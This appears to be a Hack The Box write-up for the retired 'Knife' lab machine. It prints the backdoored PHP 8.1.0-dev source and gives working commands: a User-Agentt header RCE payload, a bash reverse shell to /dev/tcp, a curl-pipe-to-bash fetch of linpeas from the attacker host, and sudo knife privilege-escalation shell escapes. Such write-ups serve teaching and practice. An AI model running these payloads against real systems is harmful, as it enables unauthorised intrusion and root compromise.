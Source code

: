 ```yaml
---
title: Knife Machine HTB
excerpt: Knife is an easy difficulty Linux machine that features an application which
  is running on a backdoored version of PHP. This vulnerability is leveraged to obtain
  the foothold on the server. A sudo misconfiguration is then exploited to gain a
  root shell.
coverImage: "/assets/blog/knife/knife.jpeg"
date: '"2021-09-12"'
author:
  name: W0lf15
  picture: "/assets/blog/authors/w0lf15.png"
ogImage:
  url: "/assets/blog/knife/knife.jpeg"
difficulty: easy
active: false

---
```

## Skills Required

- Enumeration
- Basic Knowledge of Linux
- OWASP Top 10

## Skills Learned

- Web Exploitation
- Knife Sudo Exploitation

## Enumeration

```shell
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.242 | grep ^[0-9] | cut -d '/' -f 1 | tr
'\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.10.10.242
```

Nmap scan reveals that the target server has two ports open: 22 and 80.

Apache is hosting an Emergent Medical Idea application. There's nothing interesting in this application.

### FFUF

Let's enumerate files and folders using `ffuf` utility.

Nothing interesting from the results. We send a cURL request to `index.php` page and observe the
response headers.

X-Powered-By header reveals that the application is using PHP/8.1.0-dev version. Searching
vulnerabilities related to this version reveals that it has a known RCE <a href="https://www.exploit-db.com/exploits/49933">exploit</a>.

```php
{
 zval zoh;
 php_output_handler *h;
 zval *enc;
 if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY ||
zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
 (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]),
"HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
 convert_to_string(enc);
 if (strstr(Z_STRVAL_P(enc), "zerodium")) {
 zend_try {
 zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid
2017");
 } zend_end_try();
 }
 }
 switch (ZLIBG(output_compression)) {
 case 0:
```

The code checks for the first occurance of zerodium string in User-Agentt request header. If found, it
then executes the code after that string.

```php
zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

```shell
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl
10.10.14.177");'
```

After successfully receive the request we fire up a listener on port 1234 and send below request to obtain
the reverse shell.

```shell
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

Let's setup a listener on port 80 and verify this by sending a cURL request to our server.

This is indeed successful and a shell as james is received.

## Privilege Escalation

Having foothold on the server, it is possible to enumerate the different ways to escalate privileges. We
enumerate the server using scripts such as <a href="https://github.com/rebootuser/LinEnum">LinEnum.sh</a> or <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">linPEAS.sh.</a> We download the script and copy it to the apache web root path. Next, we use curl to transfer and execute the script.

```shell
curl 10.10.14.177/linpeas.sh|bash
```

Output shows that james is allowed to run knife as root. Knife tool provides an interface to manage Chef
automation server nodes, cookbooks, recipes and etc. Knife usage can be read from manpage. Some
examples shows that, it is possible to edit knife data bags using a text editor. We can try that.

```shell
sudo knife data bag create 1 2 -e vi
```

This opens up the vim editor. We type below in the editor to get a shell as root.

```shell
:!/bin/sh
```

This can also be achieved using knife exec sub-command. We can upgrade the shell to a fully interactive.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
reset
xterm
```

Now it is possible to execute keyboard shortcuts in the shell session. Knife also provides an option exec to
execute ruby scripts. We issue the following command.

```shell
sudo knife exec
```

This opens up an interactive shell to execute the code. We type the code below and press CTRL D to run it.

```shell
exec "/bin/bash"
```

This is successful and a shell as root is obtained. Alternatively the following ways can also be used to obtain
a root shell.

```bash
sudo knife exec --exec "exec '/bin/sh -i'"
```

```bash
echo -n 'exec "/bin/bash -i"' > config.rb
sudo knife user list -c config.rb
```

```

```